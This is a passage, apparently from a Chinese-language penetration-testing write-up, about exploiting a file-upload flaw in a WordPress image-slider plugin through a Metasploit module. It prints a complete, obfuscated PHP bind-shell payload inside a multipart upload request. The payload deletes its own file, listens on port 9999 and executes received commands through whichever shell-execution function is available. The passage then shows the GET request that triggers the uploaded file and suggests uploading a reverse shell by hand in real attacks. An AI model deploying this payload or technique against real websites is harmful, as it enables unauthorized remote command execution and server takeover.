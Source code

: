 ```plain
<?php @unlink(__FILE__); /*<?php /**/  @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);  $BDQbE=@ini_get('disable_functions');  if(!empty($BDQbE)){  $BDQbE=preg_replace('/[, ]+/',',',$BDQbE);  $BDQbE=explode(',',$BDQbE);  $BDQbE=array_map('trim',$BDQbE);  }else{  $BDQbE=array();  }    $port=9999;   $scl='socket_create_listen';  if(is_callable($scl)&&!in_array($scl,$BDQbE)){  $sock=@$scl($port);  }else{  $sock=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);  $ret=@socket_bind($sock,0,$port);  $ret=@socket_listen($sock,5);  }  $msgsock=@socket_accept($sock);  @socket_close($sock);   while(FALSE!==@socket_select($r=array($msgsock), $w=NULL, $e=NULL, NULL))  {  $o = '';  $c=@socket_read($msgsock,2048,PHP_NORMAL_READ);  if(FALSE===$c){break;}  if(substr($c,0,3) == 'cd '){  chdir(substr($c,3,-1));  } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {  break;  }else{    if (FALSE !== stristr(PHP_OS, 'win' )) {  $c=$c." 2>&1\n";  }  $PFeofv='is_callable';  $jikigJe='in_array';    if($PFeofv('shell_exec')&&!$jikigJe('shell_exec',$BDQbE)){  $o=`$c`;  }else  if($PFeofv('exec')&&!$jikigJe('exec',$BDQbE)){  $o=array();  exec($c,$o);  $o=join(chr(10),$o).chr(10);  }else  if($PFeofv('system')&&!$jikigJe('system',$BDQbE)){  ob_start();  system($c);  $o=ob_get_contents();  ob_end_clean();  }else  if($PFeofv('passthru')&&!$jikigJe('passthru',$BDQbE)){  ob_start();  passthru($c);  $o=ob_get_contents();  ob_end_clean();  }else  if($PFeofv('popen')&&!$jikigJe('popen',$BDQbE)){  $fp=popen($c,'r');  $o=NULL;  if(is_resource($fp)){  while(!feof($fp)){  $o.=fread($fp,1024);  }  }  @pclose($fp);  }else  if($PFeofv('proc_open')&&!$jikigJe('proc_open',$BDQbE)){  $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);  $o=NULL;  while(!feof($pipes[1])){  $o.=fread($pipes[1],1024);  }  @proc_close($handle);  }else  {  $o=0;  }    }  @socket_write($msgsock,$o,strlen($o));  }  @socket_close($msgsock);  ?>
-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="imagetitle"

KSXrN
-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="btnsave"

Save Changes
-----------------------------743289811480519521793446209521--
```

接下来模块访问了/wp-content/uploads/wp-responsive-images-thumbnail-slider/0c2a53f9bbc963addd5de93663f4a35d.php

```plain
GET /wp-content/uploads/wp-responsive-images-thumbnail-slider/0c2a53f9bbc963addd5de93663f4a35d.php HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_logged_in_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7C813c527b5d99bb083c2e43068cc63c66c41836fc5d3fc42883b8390f8da744a2;
```

但我们到/wp-content/uploads/wp-responsive-images-thumbnail-slider/发现文件名与模块访问的文件不一致  
导致响应 404 msf 自然就没有接收到 shell  
猜测这是 wordpress 版本差异 文件的命名方式有所不同导致的问题  
在实际渗透中 可以通过插件漏洞手动上传 php\_reverse\_shell.php 然后进行访问反弹 shell
